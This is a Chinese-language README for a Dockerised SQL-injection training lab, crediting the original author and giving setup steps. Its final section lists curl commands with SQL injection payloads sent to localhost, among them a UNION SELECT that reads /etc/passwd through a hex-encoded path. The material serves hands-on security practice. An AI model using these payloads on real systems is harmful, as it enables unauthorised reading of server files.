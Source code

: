这是对`Manish Kishan Tanwar` 的 https://github.com/incredibleindishell/Local-file-disclosure-SQL-Injection-Lab/ 的docker化实现。

所有的功劳都归于原作者！我仅仅是为了方便自己测试和练手做了这个docker化尝试。

按正规docker化步骤，应该在dockerfile 里，用 wget 获得原版repo压缩包。但天朝自有国情啊... 这么做导致下载很不稳定，基本上每次都down不下来。反正内容也不多，我直接就放本地了。对这个攻击的描述请参见原作者：《**[local file disclosure using SQL Injection.pdf](https://github.com/incredibleindishell/Local-file-disclosure-SQL-Injection-Lab/blob/master/local%20file%20disclosure%20using%20SQL%20Injection.pdf)**》

使用：`docker-compose up -d `

如果需要修改php版本，则编辑`dockerfile.php`，把开头句改为：`php:5.4.45-fpm`等。

### 题外话

在练习使用curl的丰富功能。作者描述的数据提交，尝试用curl测试了一遍，大致如下，也记录一下。

```bash
curl -d "image=1 order by 4--&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image=1&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image=1 order by 4--&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image=1 order by 4--&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image=1337 union select 1,2,0x2f6574632f706173737764--&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image[]=1&image_download=Download" http://localhost:8080/

```
